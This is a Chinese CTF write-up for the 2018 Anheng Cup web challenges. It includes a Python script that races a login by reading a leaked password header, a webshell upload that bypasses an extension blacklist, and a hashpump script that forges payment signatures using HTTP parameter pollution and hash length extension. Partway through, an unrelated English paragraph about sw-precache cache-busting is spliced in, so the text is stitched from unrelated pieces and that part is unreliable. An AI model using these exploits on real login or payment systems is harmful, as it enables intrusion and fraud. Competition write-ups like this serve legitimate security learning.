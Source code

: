 ```yaml
---
layout: post
title: 2018年安恒杯10月月赛&&周周练20-
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web
复现的时候环境已经关闭了，所以没有截图了

###手速要快（100分）:
打开网站，是一个登陆页面，抓包在返回包的包头里发现password字段，很快就会刷新，所以要写个脚本，读取password字段后立刻提交，脚本如下，经过测试需要带上cookie才能成功。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import re
import time

url1 = "http://101.71.29.5:10023/index.php"
response = requests.get(url=url1)
head = response.headers
# 将头信息转为可以进行json序列化的
x = requests.structures.CaseInsensitiveDict(head)
js = dict(x)
# print js # 此处打印出来的是一个json字符串
password=js.get("password")
cookie = js.get("Set-Cookie")
cookie=cookie[10:42]
url2 = "http://101.71.29.5:10023/login.php"
data = "password=123&submit_password=login"
data = {
        "password":password,
        "submit_password":""
    }
cookie = {'PHPSESSID': "5f3d0b93c3536da16830445227d1bad7"}
re2 = requests.post(url=url2,data=data,cookies=cookie)
print re2.text
print re2.cookies
```
登陆成功后跳转到一个上传页面，需要上传php木马，经过测试上传检测使用的是黑名单过滤，但是存在解析漏洞，上传shell.php.jpg即可getshell，flag在上级目录。

### Shop（300分）

`8月份人行比赛的原题`
本题考查了http参数污染和hash长度扩展攻击
HTTP 参数污染指的是在 HTTP 请求中 发送多个相同的参数，可能会导致一些非预期的结果。比如在 Querystring 中 发送两个 test 参数，Apache + PHP 会取最后一个:

```
http://127.0.0.1?test=123&test=456

$_GET['test']=456
```

而哈希长度扩展攻击适用于在消息与密钥的长度已知的情形下，所有采取了 H(密钥 ∥ 消息) 此类构造的散列函数。该攻击对 MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法有效。简单地说，就是当知道 MD5(secret) 时， 在不知道 secret 的情况下，可以很轻易的推算出 MD5(secret∥padding∥m’)
也就是说，我们需要结合上面两种手段，在原有的 Request Body 后追加 一些内容(padding 和用于覆盖的参数)，然后计算出新的 signature，完成支付。
我的exp如下，key长度可以从源代码里找到，或者直接爆破。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from hashpumpy import hashpump
import requests
import re
sign = 'c5cc881eef97f4276b2c86bc0e42490e'
data ='order_id=72&buyer_id=19&good_id=38&buyer_point=300&good_price=888&order_create_time=1541586327.760354'
cookie = {'sessionid': 'aybgeojx2vtvekwt8bg8vqxjqde18na0'}
# sign = '58e9846626f7c1b8e80ac2da8b456e9d'
# data = 'order_id=91&buyer_id=22&good_id=34&buyer_point=200&good_price=50&order_create_time=1528269449.183292'
# cookie = {'sessionid': '6j31jogubedhgfo3pq8vlwploe5zzwmj'}
check_url = 'http://101.71.29.5:10014/payment/check'
#for i secret_key_length range(0,2000):
secret_key_length = 13
for i in range(1, 30):
    res = hashpump(sign, data, '&buyer_id={}'.format(i), secret_key_length)
    print(res)
    req = requests.post('{}?signature={}'.format(check_url, res[0]),
    data=res[1], cookies=cookie, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    print(re.findall('\<h4\>.*?\<\/h4\>', req.text))
```

Instead of using raw URL as the cache key, sw-precache append a `_sw-precache=[hash]` to the end of each URL when populating, updating its cache and even fetching these subresouces. Those `_sw-precache=[hash]` are what we called **cache-busting parameter\***. It can prevent service worker from responding and caching out-of-date responses found in browsers’ HTTP cache indefinitely.

Because each build would re-calculate hashes and re-generate a new `sw.js` with new `precacheConfig` containing those new hashes, `sw.js` can now determine the version of each subresources thus decide what part of its cache needs a update. **This is pretty similar with what we commonly do when realizing long-term caching with webpack or gulp-rev, to do a byte-diff ahead of runtime.**

\*: Developer can opt out this behaviour with `dontCacheBustUrlsMatching` option if they set HTTP caching headers right. More details on [Jake’s Post](https://jakearchibald.com/2016/caching-best-practices/).

## easy audit和CoolCms没做出来，请参考下面微笑大神的博客，还有包括其他reverser和misc的一些题。

[https://www.smi1e.top](https://www.smi1e.top/%E5%AE%89%E6%81%92%E6%9D%AF%E6%9C%88%E8%B5%9Bwrite-up/)



[1]: https://www.linkedbyx.com/home
[2]: https://www.smi1e.top